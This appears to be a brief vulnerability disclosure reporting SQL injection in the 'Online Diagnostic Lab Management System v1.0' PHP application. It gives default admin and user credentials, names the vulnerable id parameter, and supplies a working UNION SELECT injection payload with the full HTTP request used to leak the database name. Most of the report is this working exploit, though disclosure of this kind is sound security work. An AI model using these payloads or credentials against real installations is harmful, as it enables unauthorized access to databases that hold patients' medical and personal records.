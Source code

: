 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Happyd99

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/admin/?page=appointments/view_appointment&id=

Vulnerability location: /odlms/admin/?page=appointments/view_appointment&id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/admin/?page=appointments/view_appointment&id=-4%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /odlms/admin/?page=appointments/view_appointment&id=-4%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191253485-1296541c-69fc-42c1-bfec-4dc2e91f7f24.png)
